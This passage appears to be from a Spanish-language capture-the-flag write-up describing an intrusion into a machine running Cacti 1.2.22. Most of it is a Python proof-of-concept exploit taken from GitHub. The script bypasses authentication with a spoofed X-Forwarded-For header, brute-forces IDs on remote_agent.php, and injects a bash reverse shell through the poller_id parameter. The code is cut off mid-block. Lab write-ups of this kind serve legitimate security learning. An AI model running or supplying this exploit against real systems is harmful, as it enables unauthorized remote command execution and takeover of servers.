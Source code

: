 Del resto no tiene otra cosa, asi que veamos que hacemos...

## Intrusión

### www-data - 50bca5e748b0

La versión del Cacti que esta máquina usa es la 1.2.22 si vemos en el footer del formulario de login, esta versión es vulnerable a un CVE que permite bypassear la autenticación y hacer una inyección de comandos.

Buscando por GitHub encontramos varios PoCs, y uno de ellos es el siguiente:

```python
import requests
import urllib.parse

def checkVuln():
    result = requests.get(vulnURL, headers=header)
    return (result.text != "FATAL: You are not authorized to use this service" and result.status_code == 200)

def bruteForce():
    # brute force to find host id and local data id
    for i in range(1, 5):
        for j in range(1, 10):
            vulnIdURL = f"{vulnURL}?action=polldata&poller_id=1&host_id={i}&local_data_ids[]={j}"
            result = requests.get(vulnIdURL, headers=header)
    
            if result.text != "[]":
                # print(result.text)
                rrdName = result.json()[0]["rrd_name"]
                if rrdName == "polling_time" or rrdName == "uptime":
                    return True, i, j

    return False, -1, -1


def remoteCodeExecution(payload, idHost, idLocal):
    encodedPayload = urllib.parse.quote(payload)
    injectedURL = f"{vulnURL}?action=polldata&poller_id=;{encodedPayload}&host_id={idHost}&local_data_ids[]={idLocal}"
    
    result = requests.get(injectedURL,headers=header)
    print(result.text)

if __name__ == "__main__":
    targetURL = input("Enter the target address (like 'http://123.123.123.123:8080')")
    vulnURL = f"{targetURL}/remote_agent.php"
    # X-Forwarded-For value should be something in the database of Cacti
    header = {"X-Forwarded-For": "127.0.0.1"}
    print("Checking vulnerability...")
    if checkVuln():
        print("App is vulnerable")
        isVuln, idHost, idLocal = bruteForce()
        print("Brute forcing id...")
        # RCE payload
        ipAddress = "192.168.1.15"
        ipAddress = input("Enter your IPv4 address")
        port = input("Enter the port you want to listen on")
        payload = f"bash -c 'bash -i >& /dev/tcp/{ipAddress}/{port} 0>&1'"
        if isVuln:
            print("Delivering payload...")
            remoteCodeExecution(payload, idHost, idLocal)
        else:
```